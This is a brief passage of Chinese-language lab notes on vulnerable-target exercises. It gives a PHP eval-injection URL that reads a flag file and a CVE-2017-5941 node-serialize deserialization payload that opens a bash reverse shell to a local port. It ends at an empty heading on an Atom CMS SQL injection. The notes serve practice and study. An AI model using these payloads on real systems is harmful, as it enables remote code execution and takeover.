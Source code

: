```
/index.php?eval=*/readfile('/flag');/*
```

![image-20230712160449940](%E9%9D%B6%E5%9C%BA.assets/image-20230712160449940.png)

## CVE-2017-5941 Node.js node-serialize RCE

*靶标介绍：*

在 Node.js 的 node-serialize 包 0.0.4 中发现了一个问题。传递到 unserialize() 函数的不受信任的数据可以被利用，通过传递带有立即调用函数表达式 (IIFE) 的 JavaScript 对象来实现任意代码执行。

```
_$$ND_FUNC$$_function (){require('child_process').exec('bash -c "bash -i >& /dev/tcp/127.0.0.1/9991 0>&1"')}()
```

![image-20230712161613674](%E9%9D%B6%E5%9C%BA.assets/image-20230712161613674.png)





## CVE-2022-25488 Atom CMS v2.0 sql注入漏洞
